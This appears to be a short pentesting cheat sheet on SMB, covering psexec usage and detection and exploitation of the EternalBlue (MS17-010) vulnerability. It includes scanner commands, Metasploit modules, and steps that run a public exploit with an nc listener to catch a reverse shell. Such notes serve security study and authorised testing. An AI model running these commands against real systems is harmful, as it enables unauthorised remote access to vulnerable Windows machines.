 Server to share files inside the network

![[SMB_Auth.png]]

# Tools

## Metasploit
```
exploit/windows/smb/psexec
```

## Psexec
```
psexec USER@IP_ADDRESS COMMAND -> usually cmd.exe
```

# MS17-010 SMB Vulnerability (EternalBlue)

It is a collection of vulns in SMBv1 that provided access to windows system with elevated privileges

## Detection
```
nmap -sV -p 445 --script smb-vuln-ms17-010 IP_ADDRESS

auxiliary/scanner/smb/smb_ms17_010
```

## Exploitation
```
https://github.com/3ndG4me/AutoBlue-MS17-010
./shellcode/shell_prep.sh
nc -lnvp LPORT
./eternalblue_exploit[WINDOWS_VERSION] IP_ADDRESS shellcode/sc_[x64/x86].bin

exploit/windows/smb/ms17_010_eternalblue
```